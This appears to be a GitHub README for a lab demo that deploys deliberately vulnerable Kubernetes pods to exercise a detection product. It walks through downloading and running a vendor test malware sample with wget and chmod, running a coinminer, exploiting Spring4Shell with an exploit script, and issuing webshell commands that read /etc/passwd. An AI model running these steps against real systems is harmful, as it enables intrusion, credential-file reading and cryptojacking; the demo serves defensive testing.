 # Spring4Shell and Coinminer PoC

## This is for testing and demo purpose
### Setup the vulnerable environment on GKE (Google Kubernetes Engine)
Apply for the provided YAML file:
```sh
$ kubectl apply -f jie_xdr_for_cloud_demo.yaml
pod/jie-spring4shell-pod created
pod/vulmachine-pod created
service/jie-sprig4shell created
```
Once the the 2 pods and 1 services are created successfully, use the following command to check the STATUS:
```sh
$ kubectl get all
```
![image](https://github.com/jieliau/Spring4ShellPoc/blob/master/getAll.png)

Now, you have 2 vulnerable pods. One is for coinminer and another one is for Spring4Shell


### Use cases
#### Get the malware sample from Wildfire and execute it
```sh
$ kubectl exec -it vulmachine-pod  -- /bin/bash
root@vulmachine-pod:/# wget http://wildfire.paloaltonetworks.com/publicapi/test/elf -O /tmp/sample
--2023-04-24 03:19:40--  http://wildfire.paloaltonetworks.com/publicapi/test/elf
Resolving wildfire.paloaltonetworks.com (wildfire.paloaltonetworks.com)... 35.247.145.234
Connecting to wildfire.paloaltonetworks.com (wildfire.paloaltonetworks.com)|35.247.145.234|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8608 (8.4K) [application/octet-stream]
Saving to: '/tmp/sample'

/tmp/sample                                100%[======================================================================================>]   8.41K  --.-KB/s    in 0s      

2023-04-24 03:19:40 (56.4 MB/s) - '/tmp/sample' saved [8608/8608]

root@vulmachine-pod:/# chmod +x /tmp/sample 
root@vulmachine-pod:/# ./tmp/sample
```

#### Execute the coinminer
```sh
$ kubectl exec -it vulmachine-pod  -- /bin/bash
root@vulmachine-pod:/# ./tmp/coinminer
```

#### Exploit the Spring4Shell service
Check the output of the `kubectl get all` and find out the EXTERNAL-IP for your deployed service. Open your browser and connect to it.
![image](https://github.com/jieliau/Spring4ShellPoc/blob/master/checkService.png)

Once you see the above, you are good to exploit it.
```sh
$ python3 exploit.py --url "http://"your service external ip":8080/helloworld/greeting"
```
After above, websehll will be put on the server, you can use the following to execute the command to get id or /etc/passwd
```sh
$ http://"your service external ip":8080/webshell.jsp?cmd=id
$ http://"your service external ip":8080/webshell.jsp?cmd=cat%20/etc/passwd
$ http://"your service external ip":8080/webshell.jsp?cmd=whoami
```

## Credit
[@reznok](https://github.com/reznok/Spring4Shell-POC) for helping on building a spring4shell container image.
